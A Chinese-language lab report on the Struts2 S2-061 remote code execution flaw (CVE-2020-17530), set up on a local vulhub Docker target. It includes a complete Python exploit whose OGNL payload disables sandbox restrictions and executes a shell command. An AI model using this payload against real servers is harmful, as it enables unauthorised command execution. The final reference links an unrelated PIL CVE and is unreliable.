



# 实验报告

## 漏洞类型

- Struts2 Remote Code Execution Vulnerablity (CVE-2020-17530)
  

## 实验环境

- kali 2023
- docker-compose
- vulhub


## 实验步骤

### 环境搭建

利用kali虚拟机，安装docker-compose，搭建vulhub环境

```bash
git clone https://github.com/vulhub/vulhub.git
```

- 进入对应漏洞目录

  ```bash
  cd vulhub/struts2/s2-061
  ```

- 环境搭建

  ```bash
  docker-compose up -d
  ```

- 在浏览器里访问靶场，链接为https://localhost:8080/，也可以是https://<kali-ip>:8080/

    

- exp.py的内容如下：

```python
import requests

url = "http://localhost:8080/index.action"
headers = {"Accept-Encoding": "gzip, deflate", "Accept": "*/*", "Accept-Language": "en", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36", "Connection": "close", "Content-Type": "multipart/form-data; boundary=----WebKitFormBoundaryl7d1B1aGsV2wcZwF"}
data = "------WebKitFormBoundaryl7d1B1aGsV2wcZwF\r\nContent-Disposition: form-data; name=\"id\"\r\n\r\n%{(#instancemanager=#application[\"org.apache.tomcat.InstanceManager\"]).(#stack=#attr[\"com.opensymphony.xwork2.util.ValueStack.ValueStack\"]).(#bean=#instancemanager.newInstance(\"org.apache.commons.collections.BeanMap\")).(#bean.setBean(#stack)).(#context=#bean.get(\"context\")).(#bean.setBean(#context)).(#macc=#bean.get(\"memberAccess\")).(#bean.setBean(#macc)).(#emptyset=#instancemanager.newInstance(\"java.util.HashSet\")).(#bean.put(\"excludedClasses\",#emptyset)).(#bean.put(\"excludedPackageNames\",#emptyset)).(#arglist=#instancemanager.newInstance(\"java.util.ArrayList\")).(#arglist.add(\"id\")).(#execute=#instancemanager.newInstance(\"freemarker.template.utility.Execute\")).(#execute.exec(#arglist))}\r\n------WebKitFormBoundaryl7d1B1aGsV2wcZwF--"
response = requests.post(url, headers=headers, data=data)
print(response.text)
```

- 执行`python exp.py`，其返回值的id的内容就是命令执行结果

  

### 参考链接

[CVE-2017-8291](https://github.com/vulhub/vulhub/tree/master/python/PIL-CVE-2017-8291)